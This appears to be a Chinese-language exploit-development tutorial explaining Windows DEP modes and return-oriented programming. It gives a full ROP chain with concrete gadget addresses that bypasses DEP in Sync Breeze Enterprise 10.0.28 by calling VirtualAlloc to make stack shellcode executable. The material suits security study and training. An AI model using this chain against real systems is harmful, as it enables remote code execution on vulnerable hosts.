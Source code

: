 ```yaml
---
layout: default
---
```


  使用 Sync Breeze Enterprise 10.0.28 用于测试对象. 
  由于 Sync Breeze Enterprise 10.0.28 未导入VirtualAlloc, 使用GetLastError地址替换.
 
 ## DEP 简介
#### DEP 总共有4种模式.
> OptIn:           	DEP 只对系统进程和指定进程开启.
 OptOut:        	DEP 对所有进程开启,除非指定了特定进程不开启.
 AlwaysOn :   	DEP 始终开启.
 AlwasysOff : 	DEP 始终关闭.
 win7 和 win10 默认使用 OptIn. 	windows Server 2012 或  Windows Server 2019 默认使用AlwaysOn.
 
#### 为了兼容性问题, 有些情况下可以对进程开启或关闭 DEP
> LdrpCheckNXCompatibility 	用于检查以确定是否应为进程启动DEP支持. (ntdll.dll)
 NtSetInformationProcess 		用于是开启或禁用正在运行的进程的DEP. (ntdll.dll)

#### win10 强制开启指定进程DEP
>
安全中心 -> 打开Windows安全中心 -> 应用和浏览器控制 -> Exploit Protection -> 程序设置 -> 添加程序自定义 -> 数据执行保护(DEP)
编译过程中加入 /NXCOMPAT标志 , 在进程运行期间无法禁用DEP. 
这意味着在整个过程中无法关闭 DEP, 那么唯一的选择就是规避系统的NX检查.

---

##  Return  Oriented Programming (ROP)
>
 ROP 原理是用程序中己有的代码片段来组成可执行的代码链.
 通过将不同代码片段地址注入到栈中, 使用RET来控制程序流程.
 最终调用 VirtualAlloc,VirtualProtect 等函数改写内存权限执行Shellcode.

```
 假设栈内数据如下的情况下,代码会依次执行. 使用栈来控制RET的跳转.

  ESP 0 -> 0x1013fc06  	# xor eax, eax ; ret ;
  ESP 4 -> 0x101229f2	# inc eax ; ret ;
  ESP 8 -> 0x10114901	# mov  [ecx], eax ; ret ;
```
#### 使用rp++获取Gadgets
```
- https://github.com/0vercl0k/rp
- rp-win-x86.exe -f Test.exe -r 5 > rop.txt  
```

#### 使用VirtualAlloc改变虚拟地址属性
```
 LPVOID WINAPI VirtualAlloc(
   _In_opt_ LPVOID lpAddress,
   _In_     SIZE_T dwSize,
   _In_     DWORD  flAllocationType,
   _In_     DWORD  flProtect
 );
```
 pAddress: 如果指向己分配页面,则可以使用flProtect改变页面属性.
 dwSize: 以页为单位 Shellcode如果小于0x1000字节, dwSize在0x01~0x1000之间即可.
 flAllocationType: 必须设置为MEM_COMMIT (0x00001000).
 flProtect: 必须设置为PAGE_EXECUTE_READWRITE (0x00000040).

#### 调用栈信息
- 将以下栈数据放到溢出EIP之前. 
```
0d2be300 75f5ab90 -> KERNEL32!VirtualAllocStub (kernel32.dll符号表中名字为VirtualAllocStub)
0d2be304 0d2be488 -> Return address (Shellcode on the stack)
0d2be308 0d2be488 -> lpAddress (Shellcode on the stack)
0d2be30c 00000001 -> dwSize
0d2be310 00001000 -> flAllocationType
0d2be314 00000040 -> flProtect
```
#### 需要解决的问题
 得到栈地址 (通过PUSH ESP; POP REGISTER; 来获取)
 得到 VirtualAlloc 地址 (通过IAT表获得)
 得到 Shellcode 地址 (通过计算溢出数据来计算)
 dwSize, flAllocation Type和 flProtect 包含0x00字符. (通过负数运算,自增,自减,取反等方式写入)

#### 参考代码
```
  #-----------调用框架----------
  va = pack('<L', 0x45454545)	# KERNEL32!VirtualAllocStub
  va += pack('<L', 0x46464646)	# Return address (Shellcode on the stack)
  va += pack('<L', 0x47474747)	# lpAddress (Shellcode on the stack)
  va += pack('<L', 0x48484848) 	# dwSize
  va += pack('<L', 0x49494949) 	# flAllocationType
  va += pack('<L', 0x51515151)	# flProtect

  #-----------得到栈地址----------
  eip = pack('<L', 0x10154112)	# push esp ; inc ecx ; adc eax, 0x08468B10 ; pop esi ; ret ; (将ESP地址赋值给ESI)
  rop = pack("<L", 0x41414141)	# offset (栈偏移对齐,根据漏洞情况而定)
  rop += pack('<L', 0x10052048)	# mov eax, esi ; pop esi ; retn 0x0004 ; (将ESP地址赋值给EAX(EAX 操作指令更多))
  rop += pack("<L", 0x41414141)	# alignment pop esi
  
  #-----------得到VA地址 (esp - 20)----------
  rop += pack("<L", 0x10154336)	# pop ebp ; ret ;
  rop += pack("<L", 0x41414141)	# alignment retn 0x0004 (先RET然后ESP+4)
  rop += pack("<L", 0xFFFFFFE0)	# -0x00000020 = 0xFFFFFFE0
  rop += pack("<L", 0x100fcd71)	# add eax, ebp ; dec ecx ; ret ;(eax = esp - 0x20 指向VA栈顶)
  rop += pack("<L", 0x100baecb)	# xchg eax, ecx ; ret ; 
  
  #-----------写入函数地址到 VA (esp - 20)----------
  rop += pack("<L", 0x1002f729)	# pop eax ; ret ; (eax = GetLastError IAT Address)
  rop += pack("<L", 0x10168040)	# GetLastError IAT Address
  rop += pack("<L", 0x1014dc4c)	# mov eax,  [eax] ; ret ; (eax = GetLastError 虚拟地址)		 
  rop += pack("<L", 0x10114901)	# mov [ecx], eax ; retn 0x000C ; (GetLastError 虚拟地址 写入VA栈顶)
  
  #-----------写入返回地址到 VA + 4 (esp - 20)----------
  rop += pack("<L", 0x10152f51)	# mov eax, ecx ; ret ;
  rop += b"A" * 0xC				# alignment retn 0x000C
  rop += pack("<L", 0x10154336)	#  pop ebp ; ret ;
  rop += pack("<L", 0xFFFFFEB8)	# -0n328 = 0xFFFFFEB8
  rop += pack("<L", 0x1014c168)	# sub eax, ebp ; pop esi ; pop ebp ; pop ebx ; ret ; (shellcode偏移,大小根据情况而定)
  rop += b"A" * 0xC				# alignment 3 pop
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ; (VA + 4 = Return address (Shellcode on the stack))
  rop += pack("<L", 0x10114901)	# mov  [ecx], eax ; retn 0x000C ;
  
  #-----------写入lpAddress到地址 VA + 8 (esp - 18)----------
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += b"A" * 0xC				# alignment retn 0x000C
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ; 
  rop += pack("<L", 0x10114901)	# mov  [ecx], eax ; retn 0x000C ; (VA + 4 = lpAddress address (Shellcode on the stack))
  
  #-----------写入dwSize到地址 VA + C (esp - 14)----------
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += b"A" * 0xC				# alignment retn 0x000C
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ; 
  rop += pack("<L", 0x1013fc06)	# xor eax, eax ; ret ;
  rop += pack("<L", 0x101229f2)	# inc eax ; ret ;
  rop += pack("<L", 0x10114901)	# mov  [ecx], eax ; retn 0x000C ; (VA + 8 = dwSize)
  
  #-----------写入flAllocationType到地址 VA + 10 (esp - 10)----------
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += b"A" * 0xC				# alignment retn 0x000C
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ; 
  rop += pack("<L", 0x1002f729)	# pop eax ; ret ;
  rop += pack("<L", 0xFFFFEFFF)	# -0x00001000 = 0xFFFFEFFF
  rop += pack("<L", 0x1010ccc3)	# neg eax ; ret ;
  rop += pack("<L", 0x10114901)	# mov  [ecx], eax ; retn 0x000C ; (VA + C = flAllocationType)
  
  #-----------写入flProtect到地址 VA + 14 (esp - C)----------
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += b"A" * 0xC				# alignment retn 0x000C
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ; 
  rop += pack("<L", 0x1002f729)	# pop eax ; ret ;
  rop += pack("<L", 0xFFFFFFC0)	# 0x00000040 = 0xFFFFFFC0
  rop += pack("<L", 0x1010ccc3)	# neg eax ; ret ;
  rop += pack("<L", 0x10114901)	# mov  [ecx], eax ; retn 0x000C ; (VA + 10 = flProtect)
  
  #-----------调用函数 KERNEL32!VirtualAllocStub----------
  rop += pack("<L", 0x10152f51)	# mov eax, ecx ; ret ;
  rop += b"A" * 0xC				# alignment retn 0x000C
  rop += pack("<L", 0x10154336)	# pop ebp ; ret ;
  rop += pack("<L", 0xFFFFFFEC)	# 0n20 = FFFFFFEC 
  rop += pack("<L", 0x100fcd71)	# add eax, ebp ; dec ecx ; ret ; (还原EAX地址到VA栈顶)
  rop += pack("<L", 0x10158c35)	# xchg eax, esp ; ret ; (将VA栈顶地址赋值给ESP)
```

 [DEP Bypass  参考](https://www.youtube.com/watch?v=phVz8CqEng8)
